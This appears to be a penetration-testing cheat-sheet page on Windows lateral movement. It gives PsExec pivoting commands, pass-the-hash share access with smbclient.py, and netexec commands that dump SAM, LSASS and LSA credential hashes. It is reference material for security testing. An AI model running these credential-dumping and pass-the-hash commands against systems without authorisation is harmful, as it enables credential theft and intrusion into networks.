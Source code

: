 ## PsExec.exe

Useful for pivoting if we have access to the pivot machine and have credentials of another machine of the subnet. It allows you to execute processes on a remote system and redirect output to the local system.

Psexec is different with Overpass the hash - in Psexec you're using NTLM authentication on a machine, whereas Overpass the hash you're using the hash to obtain a kerberos TGT and authenticating via kerberos.

A machine might only allow access via kerberos, so psexec would not work.

```bash
https://docs.microsoft.com/en-us/sysinternals/downloads/psexec
https://www.itprotoday.com/windows-server/psexec-explainer-mark-russinovich
# The following command launches an interactive command prompt on \\marklap:
psexec -i \\marklap cmd
# Copy the program test.exe to the remote system and executes it interactively:
psexec -i \\marklap -c test.exe
```

## smbclient.py

```bash
smbclient.py user@IP -hashes :$NT_HASH
# shares
# use $SHARE
# dir
# cat file.txt
# get file.exe
```

## Dump hashes

[https://github.com/Offensive-Panda/ShadowDumper](https://github.com/Offensive-Panda/ShadowDumper)

{% hint style="info" %}
{% code overflow="wrap" %}
```bash
DCC2 (Domain Cached credentials 2) cannot be used for PTH and have to be cracked; hash is long and hard to break though.

# SAM
nxc smb $IP $CREDS --sam secdump
# LSASS
nxc smb $IP $CREDS -M lsassy
# LSA (Requires Domain Admin or Local Admin Priviledges on target Domain Controller)
nxc smb $IP $CREDS --lsa
```
{% endcode %}
{% endhint %}

### LSASS / lsassy / LSA Dump
